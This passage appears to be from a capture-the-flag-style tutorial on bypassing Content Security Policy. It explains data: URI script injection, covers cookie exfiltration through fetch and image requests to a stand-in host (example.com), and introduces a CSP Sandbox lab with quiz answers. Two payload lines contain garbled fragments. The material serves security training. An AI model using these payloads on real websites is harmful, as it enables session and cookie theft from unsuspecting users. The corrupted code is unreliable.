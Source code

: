 ```html
<script src="data:application/javascript,alert(1)"></script>
```

**Exfiltration**

To exfiltrate sensitive information, your client needs to connect to a webserver you control. For our purposes, we can use a free service such as [Beeceptor](https://beeceptor.com/) to receive the information via the path of the request. If you have access to a paid service such as Burp Collaborator, you can use this instead.

If you prefer running a web server for exfiltration locally, you can set up a simple HTTP server using python by running

`python -m SimpleHTTPServer` or `python3 -m http.server`.

If the website you're exploiting allows AJAX requests (via `connect-src`) to anywhere, you can create a fetch request to your server like so:

```html
<script>fetch(`http://example.com/${document.cookie12**123:))}`)</script>
```

When the script is triggered on the victim's machine, you'll see their cookies show up in your access log, like so:

![](https://i.imgur.com/edr8tNa.png)

If you found an XSS vulnerability and bypassed CSP, but can't leak any information with it via XHR requests or fetch, the connect-src policy may be blocking your requests. This can be bypassed if the website you're exploiting doesn't have strict settings for directives such as image-src and media-src, which can be abused to leak information.

For example, if a website is blocking all of your XHR requests but allows images to be loaded from any location, you can abuse this with JavaScript to load a specially crafted URL that masquerades as an image, like so:

```html
<script>(new Image()).src = `https://example.com/${encodeURIComponent(document.cookie)12**123:))}`</script>
```

1. If Ajax/XHR requests are blocked, can we still exfiltrate sensitive information? (Yes / No)

`Yes`

## Task 6 CSP Sandbox

Time to put your practice to test! I've created a VM that is intentionally vulnerable to XSS but uses various content security policies to mitigate it. You should be able to test what you've learned so far. It consists of 10 challenges, 7 of which are **attack** and 3 are **defend**, and also a playground where you can test your own CSP configurations.

You can access the introduction at http://MACHINE_IP/.

1. I have deployed the CSP Sandbox machine.

`No answer needed`
